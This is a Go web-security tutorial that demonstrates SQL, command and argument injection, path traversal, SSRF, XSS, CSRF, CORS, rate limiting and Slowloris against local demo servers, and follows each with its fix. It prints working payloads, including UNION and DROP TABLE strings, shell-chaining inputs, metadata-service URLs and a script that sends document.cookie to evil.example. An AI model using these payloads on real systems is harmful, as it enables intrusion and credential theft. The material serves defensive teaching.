

# Web and API security

## Why care?

Five findings from one penetration test report. Every one is in a Go service that compiles, passes its tests, and has a login:

- "`GET /orders?customer=c-42' OR '1'='1` returns every customer's orders."
- "The export endpoint runs `sh -c "wc -l exports/" + name`. We ran `id` on your server."
- "The link preview feature fetched `http://169.254.169.254/`, the cloud metadata service, and showed us its credentials."
- "A comment with `<script>` in it runs in the admin's browser."
- "A form on our test site cancelled an order in a logged-in user's account. The user clicked nothing."

None of these is a bug in Go, TLS or the database. Each one is the same mistake: **something from the request was treated as part of the program**, or the service did something on the request's behalf that it should not do for strangers. This page shows each attack working against a small Go server on your machine, then the fix, and the standard library feature that makes the fix easy.

## The idea: request data must stay data

Every request comes from someone you do not trust. The attacks on this page are different ways to make the server treat that input as more than data:

- **Injection**: the server copies input into a command for another interpreter, such as SQL or a shell. Input like `c-42' OR '1'='1` then changes the command itself. The fix is to send the input as a separate value that can never become part of the command.
- **SSRF** (server-side request forgery): the server fetches a URL that the client chose. The server can reach internal addresses that the client cannot, so the client uses the server's network access.
- **XSS** (cross-site scripting): the server puts one user's input into a page that another user's browser shows. The browser runs it as script.
- **CSRF** (cross-site request forgery): another site makes the user's browser send a request to your server. The browser adds the user's cookie, so the request looks like the user's own.
- **Denial of service**: a client sends too many requests, very large requests, or very slow requests. Rate limits, size limits and timeouts stop this.



The handler is where the input meets **four interpreters**: SQL, a shell, the file system, the network. Each one has a way to keep data as data. And the response meets a fifth: the browser.

## Under the hood: the OWASP Top 10, 2025

The **OWASP Top 10** is a list of the most common and serious web application risks, built from data on real applications. The current edition is **2025** (checked on [top10.owasp.org](https://top10.owasp.org/) and the project's GitHub source). It is an awareness document, not a checklist: "we are OWASP Top 10 compliant" means little. But it is a good map of where bugs live.

| ID  | Category (2025)                        | In Go, it looks like                                                     | Where in this chapter                                        |
| --- | -------------------------------------- | ------------------------------------------------------------------------ | ------------------------------------------------------------ |
| A01 | Broken Access Control                  | `GET /orders/{id}` without an owner check; **SSRF**; **CSRF**            | [Authorization](authorization.md), SSRF and CSRF below       |
| A02 | Security Misconfiguration              | Debug endpoints on, `http.Dir` serving `.git`, CORS `*` with credentials | Path traversal, CORS, headers below                          |
| A03 | Software Supply Chain Failures         | An unpinned dependency or CI action                                      | [Supply chain security](supply-chain.md)                     |
| A04 | Cryptographic Failures                 | `math/rand` tokens, MD5 passwords, AES-GCM nonce reuse                   | [Cryptography](cryptography.md)                              |
| A05 | Injection                              | `fmt.Sprintf` SQL, `sh -c`, `text/template` for HTML (**XSS**)           | Injection and XSS below                                      |
| A06 | Insecure Design                        | No threat model; no limits by design                                     | [Threat modeling](threat-modeling.md)                        |
| A07 | Authentication Failures                | JWT `alg=none`, no rate limit on login                                   | [Authentication](authentication.md), rate limits below       |
| A08 | Software or Data Integrity Failures    | Unsigned images, trusting a client-side "price"                          | [Supply chain security](supply-chain.md)                     |
| A09 | Security Logging and Alerting Failures | No audit log, or secrets in the logs                                     | [Structured logging](../observability/structured-logging.md) |
| A10 | Mishandling of Exceptional Conditions  | Errors that fail open, stack traces sent to clients                      | [Errors to HTTP](../go/services.md#errors-to-http-one-place) |

Two changes since 2021 matter for this page: **SSRF** is no longer its own entry, it is part of A01, and **XSS** has been part of Injection since 2021. OWASP also keeps a separate **API Security Top 10** (2023 edition), where "Broken Object Level Authorization" (BOLA, the `GET /orders/{id}` bug) is number one.

Every example below lives in one scratch module, `~/tutor/websec`, with `pgx` and `golang.org/x/time/rate` as its only dependencies. Each program is a `cmd/<name>/main.go`.

## Injection: when data becomes code

### SQL injection

A handler looks up orders by customer. The tempting code builds the SQL text with `fmt.Sprintf`:

```go
customer := os.Args[1] // imagine: r.URL.Query().Get("customer")

// BAD: the input becomes part of the SQL text.
bad := fmt.Sprintf("SELECT id, customer_id, total_cents FROM orders WHERE customer_id = '%s'", customer)
rows, err := db.QueryContext(ctx, bad)

// GOOD: the SQL text is fixed; the input travels separately as a value.
rows, err = db.QueryContext(ctx, "SELECT id, customer_id, total_cents FROM orders WHERE customer_id = $1", customer)
```

`cmd/sqli` runs both against a throwaway PostgreSQL 18 container (`tutor-pg-websec`) with four orders. A normal customer ID gives the same answer both ways:

```console
$ go run ./cmd/sqli c-42
Sprintf query: SELECT id, customer_id, total_cents FROM orders WHERE customer_id = 'c-42'
  id=1 customer=c-42 total_cents=2500
  id=2 customer=c-42 total_cents=990
  2 rows
placeholder query: ... WHERE customer_id = $1
  id=1 customer=c-42 total_cents=2500
  id=2 customer=c-42 total_cents=990
  2 rows
```

Now the attacker closes the quote and adds a condition that is always true:

```console
$ go run ./cmd/sqli "c-42' OR '1'='1"
Sprintf query: SELECT id, customer_id, total_cents FROM orders WHERE customer_id = 'c-42' OR '1'='1'
  id=1 customer=c-42 total_cents=2500
  id=2 customer=c-42 total_cents=990
  id=3 customer=c-7 total_cents=125000
  id=4 customer=c-9 total_cents=4300
  4 rows
placeholder query: ... WHERE customer_id = $1
  0 rows
```

Every customer's orders. With the placeholder, PostgreSQL looked for a customer whose ID is literally `c-42' OR '1'='1`, and found none. `UNION` reads other tables, here the database's own user list:

```console
$ go run ./cmd/sqli "x' UNION SELECT 0, usename || ' super=' || usesuper::text, 0 FROM pg_user --"
Sprintf query: SELECT id, customer_id, total_cents FROM orders WHERE customer_id = 'x' UNION SELECT 0, usename || ' super=' || usesuper::text, 0 FROM pg_user --'
  id=0 customer=postgres super=true total_cents=0
  1 rows
placeholder query: ... WHERE customer_id = $1
  0 rows
```

The app connects as a superuser, so the attacker now is one too. (That's a second bug: give the app a role that can only touch its own tables.)

The well-known `'; DROP TABLE orders; --` did **not** work here:

```console
$ go run ./cmd/sqli "x'; DROP TABLE orders; --"
Sprintf query: SELECT id, customer_id, total_cents FROM orders WHERE customer_id = 'x'; DROP TABLE orders; --'
  error: ERROR: cannot insert multiple commands into a prepared statement (SQLSTATE 42601)
placeholder query: ... WHERE customer_id = $1
  0 rows
```

pgx sends queries with PostgreSQL's **extended protocol**, which allows one statement per query. That is luck, not safety: the `OR` and `UNION` attacks above went straight through it, and a driver in "simple protocol" mode would run both statements.

**Why placeholders work.** With `$1`, the driver sends the SQL text and the values in **separate fields** of the protocol message. PostgreSQL parses the text first, then plugs in the values. A value can't change the shape of a query that is already parsed. It is not escaping; there is nothing to escape. [Go and SQL](../databases/go-and-sql.md) covers the driver itself.

### Placeholders can't name a column

"Sort by" is the next trap. A placeholder is a **value**, never a column or table name:

```console
$ go run ./cmd/orderby
ORDER BY $1 ('total_cents') returned ids in order: [1 2 3 4] err: <nil>
```

No error, and no sorting either: `ORDER BY 'total_cents'` sorts by a constant string, so the rows came back in table order (by total it would be 2, 1, 4, 3). So people go back to `Sprintf` for column names. Don't; map the input to a fixed list:

```go
var sortColumns = map[string]string{"total": "total_cents", "created": "created_at"}

col, ok := sortColumns[r.URL.Query().Get("sort")]
if !ok {
	col = "created_at"
}
q := "SELECT id FROM orders WHERE customer_id = $1 ORDER BY " + col // col is one of our constants
```

The string you concatenate came from **your** code, not from the request. That is the whole rule.

### Command injection

An export endpoint counts the lines of a file. `cmd/cmdi` does it through a shell, then without one:

```go
name := os.Args[1] // imagine: r.URL.Query().Get("file")

// BAD: the shell parses name. ; | $( ) and backticks all work.
out, err := exec.Command("sh", "-c", "wc -l exports/"+name).CombinedOutput()

// BETTER: no shell. name is one argument, whatever it contains.
out, err = exec.Command("wc", "-l", "exports/"+name).CombinedOutput()
```

```console
$ go run ./cmd/cmdi 'report-42.csv; id -u; echo PWNED'
sh -c:  1 exports/report-42.csv
1000
PWNED
  err=<nil>
direct: wc: 'exports/report-42.csv; id -u; echo PWNED': No such file or directory
  err=exit status 1
```

Through the shell, `;` ended the `wc` command and ran two more. Without the shell, `exec.Command` calls `execve` with an argument list, and the whole string is one file name. Go's `os/exec` never runs a shell unless you ask for one.

**No shell is not enough.** If the user controls a whole argument, they can pass an **option**. GNU `wc` has `--files0-from=FILE`, "read the names of the files to count from FILE". It then prints those "names" in its error message. Run from inside `exports/`:

```console
$ wc -l --files0-from=../secret.txt
wc: tutor_fake_key_0123456789abcdef: No such file or directory
$ wc -l -- --files0-from=../secret.txt
wc: '--files0-from=../secret.txt': No such file or directory
```

The first line read a file outside `exports/` and showed its content. `--` means "end of options; everything after this is a file name", and fixed it. Real cases of this **argument injection** are `git` (`--upload-pack=...`), `curl`, `tar` and `ssh`. So: no shell, put `--` before user values, validate the value against a strict pattern, and best of all, do the work in Go instead of calling a program.

## Path traversal: `os.Root`

A download handler joins a base directory with a name from the request. `cmd/files` serves `./public` four ways. Next to `public/` is `secret.txt`, and inside `public/` is a symbolic link `notes.txt -> ../secret.txt`:

```go
// BAD: Join cleans "public/../secret.txt" to "secret.txt". Out you go.
mux.HandleFunc("GET /naive", func(w http.ResponseWriter, r *http.Request) {
	b, err := os.ReadFile(filepath.Join("public", r.URL.Query().Get("name")))
	// ...
})

// GOOD: os.Root refuses any name that leaves the directory.
root, err := os.OpenRoot("public")
mux.HandleFunc("GET /root", func(w http.ResponseWriter, r *http.Request) {
	b, err := root.ReadFile(r.URL.Query().Get("name"))
	// ...
})

// http.Dir blocks "..", but follows symlinks out of the tree.
mux.Handle("GET /dir/", http.StripPrefix("/dir/", http.FileServer(http.Dir("public"))))

// FileServerFS over os.Root: no "..", no symlinks out.
mux.Handle("GET /fs/", http.StripPrefix("/fs/", http.FileServerFS(root.FS())))
```

```console
$ curl -s '127.0.0.1:9471/naive?name=hello.txt'
hello from public
$ curl -s '127.0.0.1:9471/naive?name=../secret.txt'
tutor_fake_key_0123456789abcdef
$ curl -s '127.0.0.1:9471/root?name=../secret.txt'
openat ../secret.txt: path escapes from parent
$ curl -s '127.0.0.1:9471/root?name=notes.txt'
openat notes.txt: path escapes from parent
```

`filepath.Join` is not a security check: it **cleans** the path, and cleaning `public/../secret.txt` gives `secret.txt`. `os.Root` (Go 1.24) opens the directory once and resolves every name relative to that open directory. A `..` that leaves it, or a symlink that points out of it, is an error. The kernel does the walking, so there is no gap between "check" and "open" for an attacker to swap a file in.

`http.Dir` is the older tool. It refuses `..`, and `ServeMux` cleans the URL path before it even gets there. But its documentation warns that it "will follow symlinks pointing out of the directory tree", and it does:

```console
$ curl -s --path-as-is '127.0.0.1:9471/dir/../secret.txt'
<a href="/secret.txt">Temporary Redirect</a>.

$ curl -s '127.0.0.1:9471/dir/notes.txt'
tutor_fake_key_0123456789abcdef
$ curl -s '127.0.0.1:9471/fs/notes.txt'
500 Internal Server Error
$ curl -s '127.0.0.1:9471/fs/hello.txt'
hello from public
```

`http.FileServerFS(root.FS())` (`os.Root.FS`, Go 1.24) refused the symlink. Neither one hides **dotfiles**, though. With a `public/.env` in place:

```console
$ curl -s '127.0.0.1:9471/dir/.env'
DB_PASSWORD=tutor_fake_pw
$ curl -s '127.0.0.1:9471/fs/.env'
DB_PASSWORD=tutor_fake_pw
```

`os.Root` keeps you **inside** the directory. It doesn't decide what inside the directory is public. Serve a directory that contains only public files (build it in CI), or embed them with `embed.FS`. Also note the `/root` answers above: they sent the raw error, with file names, to the client. The demo does that to show what happened. A real handler logs the error and answers `404`.

## SSRF: your server's network, used by strangers

A "link preview" feature fetches any URL the user sends. The server sits **inside** your network. It can reach things the user can't: an admin port on `127.0.0.1`, a database, other services without authentication, and on every cloud VM the **metadata service** at `169.254.169.254`, which hands out the machine's cloud credentials. That's **server-side request forgery**.

`cmd/ssrf` starts an "internal" service on `127.0.0.1:9473` that returns a fake key, and a preview endpoint on `:9472`, three ways:

```console
$ curl -s '127.0.0.1:9472/naive?url=http://127.0.0.1:9473/'
200 internal admin: api_key=tutor_fake_key_0123456789abcdef
```

The tempting fix checks the URL before fetching it:

```go
func checkURL(raw string) error {
	u, err := url.Parse(raw)
	if err != nil {
		return err
	}
	if u.Scheme != "http" && u.Scheme != "https" {
		return errors.New("scheme not allowed")
	}
	if ip, err := netip.ParseAddr(u.Hostname()); err == nil && (ip.IsLoopback() || ip.IsPrivate()) {
		return errors.New("internal address not allowed")
	}
	return nil
}
```

```console
$ curl -s '127.0.0.1:9472/checked?url=http://127.0.0.1:9473/'
internal address not allowed
$ curl -s '127.0.0.1:9472/checked?url=http://localhost:9473/'
200 internal admin: api_key=tutor_fake_key_0123456789abcdef
```

A **name** that resolves to an internal address walks past it. Resolving the name yourself first does not fix it either:

- **Redirects.** The URL is a public page that answers `302 Location: http://127.0.0.1:9473/`. `http.Client` follows it, and your check saw only the first URL.
- **DNS rebinding.** The attacker's DNS server answers "public IP" when you check, and "`127.0.0.1`" a millisecond later when the client connects.
- **Odd spellings.** IPv4-mapped IPv6, decimal and octal forms, IPv6 zones. Parsers disagree.

The fix is to check at the **last possible moment**: the address the socket is about to connect to, after DNS, for every connection. `net.Dialer.Control` is called "after creating the network connection but before actually dialing" (from `go doc net.Dialer`), with the resolved `ip:port`:

```go
func safeClient() *http.Client {
	d := &net.Dialer{
		Timeout: 3 * time.Second,
		Control: func(network, address string, _ syscall.RawConn) error {
			ap, err := netip.ParseAddrPort(address)
			if err != nil {
				return err
			}
			if !publicAddr(ap.Addr()) {
				return fmt.Errorf("ssrf: refusing to dial %s", ap.Addr())
			}
			return nil
		},
	}
	t := &http.Transport{
		Proxy:               nil, // a proxy would be dialed instead of the target
		DialContext:         d.DialContext,
		TLSHandshakeTimeout: 3 * time.Second,
	}
	return &http.Client{
		Transport: t,
		Timeout:   5 * time.Second,
		CheckRedirect: func(req *http.Request, via []*http.Request) error {
			if len(via) >= 3 {
				return errors.New("too many redirects")
			}
			return nil
		},
	}
}

var blocked = []netip.Prefix{
	netip.MustParsePrefix("0.0.0.0/8"),
	netip.MustParsePrefix("100.64.0.0/10"), // carrier-grade NAT, also some cloud internals
	netip.MustParsePrefix("192.0.0.0/24"),
	netip.MustParsePrefix("198.18.0.0/15"),
	netip.MustParsePrefix("64:ff9b::/96"), // NAT64 can map to any IPv4
}

func publicAddr(ip netip.Addr) bool {
	ip = ip.Unmap() // ::ffff:127.0.0.1 is 127.0.0.1
	if !ip.IsGlobalUnicast() || ip.IsPrivate() || ip.IsLoopback() || ip.IsLinkLocalUnicast() {
		return false
	}
	for _, p := range blocked {
		if p.Contains(ip) {
			return false
		}
	}
	return true
}
```

```console
$ curl -s '127.0.0.1:9472/safe?url=http://localhost:9473/'
Get "http://localhost:9473/": dial tcp 127.0.0.1:9473: ssrf: refusing to dial 127.0.0.1
$ curl -s '127.0.0.1:9472/safe?url=http://%5B::ffff:127.0.0.1%5D:9473/'
Get "http://[::ffff:127.0.0.1]:9473/": dial tcp 127.0.0.1:9473: ssrf: refusing to dial 127.0.0.1
$ curl -s '127.0.0.1:9472/safe?url=http://169.254.169.254/latest/meta-data/'
Get "http://169.254.169.254/latest/meta-data/": dial tcp 169.254.169.254:80: ssrf: refusing to dial 169.254.16
$ curl -s '127.0.0.1:9472/safe?url=https://example.com/'
200 <!doctype html><html lang=en><head><meta charset=utf-8><link rel=icon href=data:,><meta name=viewport cont
```

(Lines cut at 110 characters.) Names, mapped addresses and the metadata IP are all refused; a public site works. A redirect is a new connection, so it goes through `Control` too, and so does the second DNS answer in a rebinding attack.

Why the `blocked` list on top of the `netip` methods? Because they answer "what kind of address is this?", not "is it safe?". The `IsPrivate` docs say so: it "does not describe a security property of addresses, and should not be used for access control". A quick check:

```console
$ go run ./cmd/nip
127.0.0.1          loopback=true  private=false linklocal=false global=false
::ffff:127.0.0.1   loopback=true  private=false linklocal=false global=false
::ffff:10.0.0.7    loopback=false private=true  linklocal=false global=true
169.254.169.254    loopback=false private=false linklocal=true  global=false
fd00::1            loopback=false private=true  linklocal=false global=true
100.64.0.1         loopback=false private=false linklocal=false global=true
```

`100.64.0.1` is "global" by these methods, but it is not on the internet. And "private" is not the same as "not global". So the check combines several methods and a list.

The dialer is the **last** line. Before it: allow only the schemes and ports you need, prefer an allowlist of hosts when the feature allows it, cap the response size and time, and never send the raw response or error back. Outside the code: block `169.254.169.254` with a network policy, and on AWS require IMDSv2, which needs a `PUT` with a header first. Run the fetcher in its own small service with no credentials, and give it an egress proxy. Then even a bypass reaches nothing.

## XSS: `html/template`, not `text/template`

**Cross-site scripting** puts the attacker's script into **your** page, so it runs with your origin: it can read the page, call your API with the user's cookies, and send data away. In Go the bug is almost always one import. `cmd/xss` renders the same template with both packages:

```go
const page = `<p>Note: {{.Note}}</p>
<a href="{{.Website}}">shop</a>
<script>var customer = {{.Customer}};</script>
`

d := data{
	Note:     `<script>fetch("//evil.example/?c="+document.cookie)</script>`,
	Website:  `javascript:alert(1)`,
	Customer: `"; alert(2); "`,
}
```

```console
$ go run ./cmd/xss
--- text/template
<p>Note: <script>fetch("//evil.example/?c="+document.cookie)</script></p>
<a href="javascript:alert(1)">shop</a>
<script>var customer = "; alert(2); ";</script>
--- html/template
<p>Note: &lt;script&gt;fetch(&#34;//evil.example/?c=&#34;&#43;document.cookie)&lt;/script&gt;</p>
<a href="#ZgotmplZ">shop</a>
<script>var customer = "\"; alert(2); \"";</script>
```

`text/template` copied the strings as they are. Three working attacks. `html/template` escaped each one **for its context**:

1. In HTML text, `<` became `&lt;`: the browser shows the script instead of running it.
2. In an `href`, it refused the `javascript:` URL and wrote `#ZgotmplZ`, a marker that means "an unsafe value was removed here". If you see `ZgotmplZ` in your HTML, a value was rejected.
3. Inside `<script>`, it wrote a JavaScript string literal with quotes escaped. (A value inside `<script>` is still a risky design; prefer `data-` attributes.)

The escaping is turned off by the types `template.HTML`, `template.JS`, `template.URL` and similar types. The docs: "the encapsulated content should come from a trusted source, as it will be included verbatim". `template.HTML(userInput)` is still XSS. Search for those conversions in review.

For a **JSON API** like `ordersd`, XSS risk is smaller but real: a browser that guesses ("sniffs") that a JSON response is HTML would render it. `ordersd` sets `Content-Type: application/json` and `X-Content-Type-Options: nosniff` on every JSON response (see the headers below). Escaping on output is the fix. "Sanitising" input on the way in is not: you don't know yet whether the value goes into HTML, SQL or a shell.

## CSRF: `http.CrossOriginProtection`

A logged-in user visits `evil.example`. Its page contains a form that posts to `https://shop.example/orders/42/cancel`, and submits it with JavaScript. The browser sends the request **with the user's shop cookie**. The shop sees a valid session and cancels the order. That's **cross-site request forgery**. The attacker can't read the answer, but they don't need to.

The old fix is a **CSRF token**: a random value in each form that `evil.example` can't know. Cookies with `SameSite=Lax` (see [Authentication](authentication.md)) also stop most cases. Modern browsers add a third, simpler defence: they say where a request comes from, in the `Sec-Fetch-Site` header (`same-origin`, `same-site`, `cross-site` or `none`). Go 1.25 added `http.CrossOriginProtection`, which uses it. From `go doc net/http.CrossOriginProtection`:

> Cross-origin requests are currently detected with the Sec-Fetch-Site header, available in all browsers since 2023, or by comparing the hostname of the Origin header with the Host header.
>
> The GET, HEAD, and OPTIONS methods are safe methods and are always allowed. [...]
>
> Requests without Sec-Fetch-Site or Origin headers are currently assumed to be either same-origin or non-browser requests, and are allowed.

`cmd/csrf` wraps a "cancel order" handler and sends it fake browser requests **in-process** with `httptest`, so no real request leaves the program:

```go
cop := http.NewCrossOriginProtection()
if err := cop.AddTrustedOrigin("https://admin.shop.example"); err != nil {
	panic(err)
}
h := cop.Handler(http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
	fmt.Fprint(w, "order cancelled")
}))
```

```console
$ go run ./cmd/csrf
same-origin form           POST -> 200 order cancelled
evil site form             POST -> 403 cross-origin request detected from Sec-Fetch-Site header
evil site GET              GET  -> 200 order cancelled
old browser, Origin only   POST -> 403 cross-origin request detected, and/or browser is out of date: Sec-Fetch-Site is missing, and Origin does not match Host
trusted admin origin       POST -> 200 order cancelled
curl, no headers           POST -> 200 order cancelled
```

Read the lines:

- The cross-site `POST` is refused, whether the browser sends `Sec-Fetch-Site` or only `Origin`.
- `AddTrustedOrigin` lets a known other origin through (an admin UI on another host).
- **The cross-site `GET` went through.** CSRF protection assumes `GET` changes nothing. A `GET /orders/42/cancel` is a CSRF hole that no middleware closes. Use `POST`, `PUT`, `PATCH` or `DELETE` for every change.
- **`curl` went through.** CSRF is a browser attack: it abuses the cookie the browser adds. A script has no victim's cookie, so it needs real credentials, and those are checked by [authentication](authentication.md). An API that only takes `Authorization: Bearer` tokens (no cookies) is not open to CSRF at all, because the browser never adds that header on its own.

## CORS: who may **read** the answer

The browser's **same-origin policy** says: JavaScript on `https://evil.example` may **send** many requests to `https://shop.example`, but may not **read** the answers. **CORS** (cross-origin resource sharing) is how a server relaxes that rule for origins it trusts. It is an opt-in to **less** security, not a protection. A server with no CORS headers is the strictest case.

For "non-simple" requests (JSON bodies, `Authorization` headers, `PUT`/`DELETE`), the browser first sends a **preflight** `OPTIONS` request, asking permission. `cmd/api` allows one origin, `https://shop.example`:

```go
func cors(next http.Handler, allowed map[string]bool) http.Handler {
	return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
		w.Header().Add("Vary", "Origin")
		origin := r.Header.Get("Origin")
		if allowed[origin] {
			w.Header().Set("Access-Control-Allow-Origin", origin)
			w.Header().Set("Access-Control-Allow-Credentials", "true")
		}
		if r.Method == http.MethodOptions && r.Header.Get("Access-Control-Request-Method") != "" {
			if allowed[origin] {
				w.Header().Set("Access-Control-Allow-Methods", "GET, POST")
				w.Header().Set("Access-Control-Allow-Headers", "Content-Type, Authorization")
				w.Header().Set("Access-Control-Max-Age", "600")
			}
			w.WriteHeader(http.StatusNoContent)
			return
		}
		next.ServeHTTP(w, r)
	})
}
```

```console
$ curl -si -X OPTIONS 127.0.0.1:9474/v1/orders -H "Origin: https://shop.example" -H "Access-Control-Request-Method: POST"
HTTP/1.1 204 No Content
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: Content-Type, Authorization
Access-Control-Allow-Methods: GET, POST
Access-Control-Allow-Origin: https://shop.example
Access-Control-Max-Age: 600
Vary: Origin
$ curl -si -X OPTIONS 127.0.0.1:9474/v1/orders -H "Origin: https://evil.example" -H "Access-Control-Request-Method: POST"
HTTP/1.1 204 No Content
Vary: Origin
```

(Only the status, `Access-Control-*` and `Vary` lines are shown.) The evil origin gets no `Access-Control-Allow-Origin`, so the browser blocks the real request. Note that **`curl` got an answer both times**: CORS is enforced by the browser, not the server. It never stops a script, so it is never a replacement for authentication.

`Vary: Origin` tells caches that the answer depends on the `Origin` header. Without it, a CDN may serve `shop.example`'s answer to everyone.

`ordersd` has no CORS code and no `OPTIONS` route. That is the safe default for an API called by other services, not by browsers:

```console
$ curl -si -X OPTIONS 127.0.0.1:9475/v1/orders -H "Origin: https://evil.example" -H "Access-Control-Request-Method: POST"
HTTP/1.1 405 Method Not Allowed
Allow: GET, HEAD, POST
Content-Type: text/plain; charset=utf-8
X-Content-Type-Options: nosniff
X-Request-Id: 01a21dac-6b32-7739-92af-312708a2d909
Date: Fri, 27 Nov 2026 15:42:48 GMT
Content-Length: 19

Method Not Allowed
```

The dangerous CORS bug is **reflecting** the `Origin` header back with `Access-Control-Allow-Credentials: true`: "every site on the internet may read this user's data with their cookies". Browsers refuse `Access-Control-Allow-Origin: *` together with credentials, so people "fix" that by echoing `Origin`. Always compare against a fixed list. Not with `strings.HasSuffix(origin, "shop.example")` either: `evilshop.example` ends with that too.

## Rate limits: `golang.org/x/time/rate`

A login endpoint without a limit lets an attacker try a million passwords. A search endpoint without one lets one client use all your database. `golang.org/x/time/rate` implements a **token bucket**: a bucket holds up to `burst` tokens and refills at `r` tokens per second. Each request takes one token; an empty bucket means "no".

`cmd/api` keeps one bucket per client IP: 5 requests per second, bursts of 10:

```go
func (c *clientLimiter) middleware(next http.Handler) http.Handler {
	return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
		// RemoteAddr, not X-Forwarded-For: a client can write any header.
		ip, _, _ := net.SplitHostPort(r.RemoteAddr)
		if !c.get(ip).Allow() {
			w.Header().Set("Retry-After", "1")
			http.Error(w, "too many requests", http.StatusTooManyRequests)
			return
		}
		next.ServeHTTP(w, r)
	})
}
```

`c.get(ip)` returns that IP's `*rate.Limiter`, created with `rate.NewLimiter(5, 10)` on first use. Fifteen quick requests:

```console
$ for i in $(seq 15); do curl -s -o /dev/null -w "%{http_code} " 127.0.0.1:9474/v1/orders; done; echo
200 200 200 200 200 200 200 200 200 200 429 429 429 429 429
```

Ten from the full bucket, then `429 Too Many Requests`. A client that invents a different `X-Forwarded-For` each time still shares one bucket, because the key is the TCP peer address:

```console
$ for i in $(seq 5); do curl -s -o /dev/null -w "%{http_code} " -H "X-Forwarded-For: 203.0.113.$i" 127.0.0.1:9474/v1/orders; done; echo
429 429 200 429 429
```

(The one `200` is a token that refilled during the loop.) Behind a load balancer, `RemoteAddr` is the load balancer, so you **must** use the forwarded header. Then trust only the entry your own proxy added (the right-most one it appended), never the left-most one the client wrote. The answer tells a polite client when to come back:

```console
$ curl -si 127.0.0.1:9474/v1/orders
HTTP/1.1 429 Too Many Requests
Cache-Control: no-store
Content-Security-Policy: default-src 'none'; frame-ancestors 'none'
Content-Type: text/plain; charset=utf-8
Referrer-Policy: no-referrer
Retry-After: 1
Strict-Transport-Security: max-age=63072000; includeSubDomains
X-Content-Type-Options: nosniff
Date: Fri, 27 Nov 2026 15:42:40 GMT
Content-Length: 18

too many requests
```

Three limits of this design. The map grows with every new IP: evict idle entries, or an attacker with many addresses fills your memory. Each replica counts on its own: three pods allow three times the rate. For a global limit use a shared store (Redis) or the API gateway. And limit by **what matters**: per IP for anonymous traffic, per user or API key after login, and per account for login attempts, so one attacker with a thousand IPs still gets a few tries per account.

## Security headers

A few response headers make the browser stricter. For a JSON API most of them cost nothing. `cmd/api` sets them in one middleware:

```console
$ curl -si 127.0.0.1:9474/v1/orders
HTTP/1.1 200 OK
Cache-Control: no-store
Content-Security-Policy: default-src 'none'; frame-ancestors 'none'
Content-Type: application/json
Referrer-Policy: no-referrer
Strict-Transport-Security: max-age=63072000; includeSubDomains
Vary: Origin
X-Content-Type-Options: nosniff
Date: Fri, 27 Nov 2026 15:42:23 GMT
Content-Length: 14

{"orders":[]}
```

| Header                      | Value here                                   | What it does                                                                                                                                                        |
| --------------------------- | -------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `X-Content-Type-Options`    | `nosniff`                                    | The browser trusts `Content-Type` and does not guess. JSON is never run as HTML or script                                                                           |
| `Content-Security-Policy`   | `default-src 'none'; frame-ancestors 'none'` | This response may load nothing and may not be put in a frame. For HTML pages, CSP is the strongest XSS defence after escaping: it says which scripts may run at all |
| `Strict-Transport-Security` | `max-age=63072000; includeSubDomains`        | "Use only HTTPS for this host for two years." Browsers ignore it over plain HTTP. See [TLS](../networking/tls.md)                                                   |
| `Referrer-Policy`           | `no-referrer`                                | URLs (which may contain IDs or tokens) are not sent to other sites                                                                                                  |
| `Cache-Control`             | `no-store`                                   | Personal data is not kept in shared caches or on disk                                                                                                               |

`X-Frame-Options: DENY` is the older form of `frame-ancestors`; add it if old browsers matter. `X-XSS-Protection` is obsolete; don't add it. Compare with `ordersd` as it is:

```console
$ curl -si 127.0.0.1:9475/v1/orders
HTTP/1.1 200 OK
Content-Type: application/json
X-Content-Type-Options: nosniff
X-Request-Id: 01a21dac-6b2b-7858-bcde-bb6ed49283bc
Date: Fri, 27 Nov 2026 15:42:48 GMT
Content-Length: 14

{"orders":[]}
```

`nosniff` and an exact `Content-Type` are the two that matter most for a JSON API, and it has both. HSTS belongs where TLS ends, which for `ordersd` is the load balancer or ingress (see [Load balancers](../networking/load-balancers.md)).

## Body size limits and timeouts

The cheapest attacks need no bug at all: send a huge body, or send a normal request very slowly. `ordersd` already defends against both. [Building a service](../go/services.md#decoding-safely) explains the code; here is the evidence.

The body limit is `http.MaxBytesReader` with 1 MiB, and a test proves it:

```console
$ go test -run 'TestErrors/body_too_large' -v ./internal/httpapi/
=== RUN   TestErrors/body_too_large
--- PASS: TestErrors (0.00s)
    --- PASS: TestErrors/body_too_large (0.00s)
PASS
ok  	github.com/acme/orders/internal/httpapi	0.008s
```

The header limit is `MaxHeaderBytes: 64 << 10`. And a **Slowloris** client, which sends the request headers one byte per second to hold a connection open forever, meets `ReadHeaderTimeout: 5s`. `cmd/slow` does exactly that against `ordersd`:

```console
$ go run ./cmd/slow 127.0.0.1:9475
after 5s: server sent "HTTP/1.1 400 Bad Request\r\nContent-Type: text/plain; charset=utf-8\r\nConnection: close\r\n\r\n400 Bad Request", err=<nil>
```

Five seconds, then the server answered `400` and closed the connection. (In another run the close won the race and the client saw only `EOF`, also after 5 s.) Without `ReadHeaderTimeout` (or `ReadTimeout`), the zero value of `http.Server` waits forever, and a few thousand such connections use up the file descriptors. [Server timeouts](../go/services.md#server-timeouts) explains each field. The same goes the other way: every outbound `http.Client` needs a `Timeout`, as the SSRF client above has (see [HTTP](../networking/http.md)).

Other limits worth a line of code each: the number of items in a list (an order with ten million lines is 1 MiB of JSON or less), the length of every string, the page size of list endpoints, and the depth of nested JSON. `encoding/json/v2`, which `ordersd` uses, has a nesting limit built in:

```console
$ go run ./cmd/deep
depth 1000: err=<nil>
depth 10000: err=<nil>
